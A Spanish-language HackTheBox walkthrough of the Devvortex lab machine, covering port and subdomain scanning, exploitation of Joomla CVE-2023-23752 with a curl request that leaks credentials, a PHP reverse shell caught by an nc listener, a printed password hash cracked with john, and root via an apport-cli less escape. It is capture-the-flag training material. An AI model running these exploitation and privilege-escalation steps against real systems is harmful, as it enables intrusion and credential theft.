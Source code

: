 ```yaml
---
title: Devvortex HTB Writeup
published: 2024-02-12
description: 'Encontramos un Joomla vulnerable a CVE-2023-23752, esto nos permite ver Credenciales de administrator.'
image: 'image.png'
tags: [Easy, Linux, Joomla]
category: 'HackTheBox'
draft: false 
---
```


# Initial Recon

Comenzamos nuestro escaneo con nmap:

```bash
> sudo nmap 10.10.11.242 -sS --open --min-rate 3000 -p- -n -Pn -oN Nmapscan

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
> nmap -p22,80 -sVC 10.10.11.242 -Pn -oN versionScan

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

sólo tenemos 2 puertos abiertos, así que echemos un vistazo a la página web

# Web

![alt text](image-1.png)

Después de buscar en toda la web, fuzz subdominios:

```bash
> gobuster vhost -u http://devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt

Found: dev.devvortex.htb (Status: 200) [Size: 23221
```

encontramos otra página web:

![alt text](image-2.png)

![alt text](image-3.png)

Viendo las tecnologías de la web, intentamos hacer fuzzing para encontrar el panel de login de joomla.

```bash
> gobuster dir -u http://dev.devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt

/robots.txt           (Status: 200) [Size: 764]
/README.txt           (Status: 200) [Size: 764]
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]          
/api/experiments      (Status: 406) [Size: 29]                                               
/api/experiments/configurations (Status: 406) [Size: 29]                                     
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
```

en el README.txt vemos lo siguiente:

http://dev.devvortex.htb/README.txt

![alt text](image-4.png)

Esta es la versión, busquemos vulnerabilidades o exploits.

Busca: Joomla 4.2 exploit

## CVE-2023-23752 - Exploit

Encontramos un exploit: [Exploit DB - CVE-2023-23752](https://www.exploit-db.com/exploits/51334)

Descargamos el exploit e instalamos las librerías necesarias

![alt text](image-5.png)

```bash
> sudo gem install docopt httpx json paint
```

Al ejecutar el exploit tenemos los siguientes resultados:

```bash
ruby exploit.rb http://dev.devvortex.htb
```

![alt text](image-6.png)

## CVE-2023-23752 - Manual

Ejecutaremos la misma vulnerabilidad, pero manualmente, para entenderlo mejor:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#api-unauthenticated-information-disclosure

```bash
curl -s 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true' | ./jq-linux-amd64 | grep -E 'user|password'
```

También encontramos información que podría sernos útil en el mismo archivo

![alt text](image-7.png)

## CVE-2023-23752 - My Script

También he creado un script para esto, así que tienes más opciones: https://github.com/mil4ne/CVE-2023-23752-Joomla-v4.2.8/

Con estas credenciales intentamos entrar en el panel de Joomla.

## Get shell

![alt text](image-8.png)

una vez dentro, vamos a la sección system.

Ahora solo tenemos que editar uno de los archivos de la web o del panel y ponerles php revshell, usaremos este:

![alt text](image-9.png)

Accedemos al fichero que hemos editado, para recibir el shell a nuestro puerto de escucha

```bash
nc -nlvp 9001              
listening on [any] 9001 ...
connect to [10.10.14.145] from (UNKNOWN) [10.10.11.242] 41690
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:47:51 up  4:52,  0 users,  load average: 0.57, 0.34, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(w ww-data) gid=33(www-data) groups=33(www-data)
```

# Lateral Movement

## Mysql Database

Previamente habíamos visto que existía una base de datos mysql, así que intentamos conectarnos:

```bash
> mysql -u lewis -p 
```

```bash
show databases;
```

```bash
use joomla;
```

```bash
show tables;
```

```bash
select * from sd4fg_users
```

Después de mirar todo el contenido de la base de datos, encontramos el siguiente hash del usuario logan:

```bash
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

## Crack Hash
Identificamos el hash y crackeamos con john

![alt text](image-10.png)

pasamos al usuario logan

```bash
> su logan
```

# Privilege Escalation

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

## CVE-2023–1326 - Privilege Escalation - apport-cli 2.26.0

En esta parte voy a mostrarte 2 formas de escalar privilegios:

    > apport-cli Escalada de Privilegios

    > creamos un archivo sh y lo ejecutamos con el apport-cli

```bash
logan@devvortex:/tmp$ echo 'Hello apport-cli' > exp.sh
logan@devvortex:/tmp$ chmod +x exp.sh
logan@devvortex:/tmp$ sudo apport-cli -c exp.sh less
```

Seleccionamos V para la opción de ver informe y cuando diga ’:’, insertamos el shell !/bin/bash

```bash
What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
<HERE YOU GET "less" command output type "!/bin/bash">
```

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```